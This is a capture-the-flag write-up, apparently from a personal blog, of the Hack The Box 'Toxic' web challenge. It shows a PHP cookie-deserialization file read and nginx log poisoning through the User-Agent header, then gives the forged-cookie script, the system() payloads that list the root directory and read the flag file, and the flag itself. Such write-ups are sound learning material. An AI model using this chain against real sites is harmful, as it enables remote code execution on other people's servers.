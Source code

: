 ```yaml
---
title: HTB Toxic(Challenge) Writeup
author: Cerberus
date: 2023-02-26
categories: [writeups, HTB]
tags: [LFI, RCE, PHP]
---
```


## web/Toxic

**Description: Humanity has exploited our allies, the dart frogs, for far too long, take back the freedom of our lovely poisonous friends. Malicious input is out of the question when dart frogs meet industrialisation. 🐸**

[zip file](https://app.hackthebox.com/challenges/Toxic) *\*Login to Download*

#### index.php

```php
<?php
spl_autoload_register(function ($name){
    if (preg_match('/Model$/', $name))
    {
        $name = "models/${name}";
    }
    include_once "${name}.php";
});

if (empty($_COOKIE['PHPSESSID']))
{
    $page = new PageModel;
    $page->file = '/www/index.html';

    setcookie(
        'PHPSESSID', 
        base64_encode(serialize($page)), 
        time()+60*60*24, 
        '/'
    );
} 

$cookie = base64_decode($_COOKIE['PHPSESSID']);
unserialize($cookie);
```

A few pointers to note in this file

- If the `PHPSESSID` cookie is empty, a new **PageModel** object is created and a file attribute is set pointing to */www/index.html*. It is then serialized and base64 encoded and set in a cookie.

- If the `PHPSESSID` cookie is present, it is simply base64 decoded and unserialized.

### Initial Steps

My initial thoughts were to base64 decode and unserialize the cookie and change the file object to read the flag located in `/flag`. So I took the initial cookie and base64 decoded and unserialized it. It gave me and object which looked like this 

> O:9:"PageModel":1:{s:4:"file";s:15:"/www/index.html";}. 

More info about how serializing and deserializing works can be found at [Insecure Deserialization in PHP](https://redfoxsec.com/blog/insecure-deserialization-in-php/). I tried to change the file to point to `/flag` directory, but seems like there was no flag. On looking closer at other files, there was an `entrypoint.sh` file.

#### entrypoint.sh

```sh
#!/bin/ash

# Secure entrypoint
chmod 600 /entrypoint.sh

# Generate random flag filename
mv /flag /flag_`cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1`

exec "$@"
```

It seems a new random directory for flag is created each time a new instance is spun. So we need to know the exact folder name to read the flag. I decided to look into other files in the folder.

### Analyzing nginx.conf

#### The folder structure

```sh
.
├── build-docker.sh
├── challenge
│   ├── index.html
│   ├── index.php
│   ├── models
│   │   └── PageModel.php
│   └── static
│       ├── basement
│       │   └── help.png
│       ├── css
│       │   └── production.css
│       ├── images
│       │   ├── aircraft.svg
│       │   ├── bucket.svg
│       │   ├── dart-frog.jpg
│       │   ├── drift.svg
│       │   ├── facebook.svg
│       │   ├── favicon.ico
│       │   ├── flask.svg
│       │   ├── instagram.svg
│       │   ├── logo.svg
│       │   ├── newrelic.svg
│       │   ├── presentor.jpg
│       │   ├── ryan1.png
│       │   ├── ryan2.png
│       │   ├── ryan3.png
│       │   ├── ryan4.png
│       │   ├── ryan5.png
│       │   ├── ryan6.png
│       │   ├── segment.svg
│       │   ├── stripe.svg
│       │   ├── twitter.svg
│       │   ├── woman1.jpg
│       │   ├── woman2.jpg
│       │   ├── woman3.jpg
│       │   ├── youtube.svg
│       │   └── zopim.svg
│       └── js
│           └── production.js
├── config
│   ├── fpm.conf
│   ├── nginx.conf
│   └── supervisord.conf
├── Dockerfile
├── entrypoint.sh
└── flag
```

The file that stood out was *nginx.conf*. I decided to give that file a look.

#### nginx.conf

```nginx
user www;
pid /run/nginx.pid;
error_log /dev/stderr info;

events {
    worker_connections 1024;
}

http {
    server_tokens off;
    log_format docker '$remote_addr $remote_user $status "$request" "$http_referer" "$http_user_agent" ';
    access_log /var/log/nginx/access.log docker;

    charset utf-8;
    keepalive_timeout 20s;
    sendfile on;
    tcp_nopush on;
    client_max_body_size 1M;

    include  /etc/nginx/mime.types;

    server {
        listen 80;
        server_name _;

        index index.php;
        root /www;

        location / {
            try_files $uri $uri/ /index.php?$query_string;
            location ~ \.php$ {
                try_files $uri =404;
                fastcgi_pass unix:/run/php-fpm.sock;
                fastcgi_index index.php;
                fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
                include fastcgi_params;
            }
        }
    }
}
```

The first thing that caught my attention was the `access_log`, that describes where the logs were stored. Next thing is I wrote a simple PHP script that would create the **PageModel** object with file pointing to `/var/log/nginx/access.log`.

```php
<?php
class PageModel
{
    public $file;
}
$page = new PageModel;
$page->file = '/var/log/nginx/access.log';
print(base64_encode(serialize($page)))
?>
```

After updating the cookie and refreshing the page, we are presented with the contents of *access.log* file.

![Contents of /var/log/nginx/access.log](/assets/img/toxic/toxic.png) 
_Contents of /var/log/nginx/access.log_

### The Final Steps

Next thing we could see is how the log is formatted before it is inserted into the log file. The following line shows the configuration.

> log_format docker '$remote_addr $remote_user $status "$request" "$http_referer" "$http_user_agent" ';  
  access_log /var/log/nginx/access.log docker;

We could see the user agent being inserted in the log, which is something an user could control. After a few hours of research and after many attempts of trail and error, I came to know about log poisoning. Considering the application is a PHP application we could try to insert some arbitrary PHP code in the user-agent header and check if it gets executed. Inserting this line of code in the header produces the following result.

```php
<?php system('ls -l /');?>
```

![Contents of /var/log/nginx/access.log with contents of / folder](/assets/img/toxic/toxic1.png) 
_Contents of /var/log/nginx/access.log with contents of / folder_

Now since we have the flag folder we could insert another PHP payload in the user-agent header and read the flag.

```php
<?php system('cat /flag_H3zzM');?>
```

![Contents of /var/log/nginx/access.log with flag](/assets/img/toxic/toxic2.png) 
_Contents of /var/log/nginx/access.log with flag_

**Flag: HTB{P0i5on_1n_Cyb3r_W4rF4R3?!}**